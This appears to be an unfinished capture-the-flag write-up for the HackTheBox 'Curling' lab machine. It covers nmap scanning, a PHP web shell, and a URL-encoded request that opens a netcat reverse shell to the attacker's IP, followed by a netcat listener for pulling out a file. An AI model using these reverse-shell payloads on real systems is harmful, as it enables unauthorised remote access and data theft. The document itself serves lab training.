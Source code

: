 # 🥌 Curling

## Initial Nmap Scan

```bash
sudo nmap -p- <target_ip>
```

```bash
sudo nmap -p 22,80 -sCV <target_ip>
```

![[Pasted image 20240304112948.png]]

I then ran a vulnerability scan and this discovered some interesting pages:

![[Pasted image 20240304113233.png]]

## Reverse Shell

\# create a file that will create the reverse shell

```php
<?php
	system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f');
?>
```

\# start Ncat listener

```
http://10.129.194.251/templates/beez3/shelly.php?whiskey=cat%20/tmp/df%20|%20/bin/sh%20-i%202%3E%261%20|%20nc%2010.10.14.3%204444%20%3E%20/tmp/df
```

I now have a shell as www-data on the target machine:

![[Pasted image 20240304113427.png]]

\# Opening `user.txt`

![[Pasted image 20240304115024.png]]

The file is a hex dump so it needs to be exfiltrated in order to find the contents.

\# Starting Ncat listener to recieve the file:

```bash
nc -l <port> > <>
```


# 🤯 User Own

# 🖥 System Own


---

# 🔗 Useful Links